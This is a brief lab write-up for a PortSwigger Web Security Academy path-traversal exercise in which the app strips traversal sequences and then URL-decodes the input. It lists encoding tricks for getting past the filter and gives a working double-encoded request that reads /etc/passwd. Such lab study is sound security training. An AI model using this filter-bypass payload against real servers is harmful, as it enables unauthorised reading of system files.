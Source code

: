 # 4 - Traversal sequences stripped with superfluous URL-decode

> This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.
>
>  The application blocks input containing [path traversal](https://portswigger.net/web-security/file-path-traversal) sequences. It then performs a URL-decode of the input before using it.
>
>  To solve the lab, retrieve the contents of the `/etc/passwd` file.

 You might be able to use various non-standard encodings, such as `..%c0%af` or `..%252f`, to bypass the input filter.

![](../../.gitbook/assets/imagen%20%28639%29.png)

```text
GET /image?filename=..%252f..%252f..%252f/etc/passwd HTTP/1.1
```



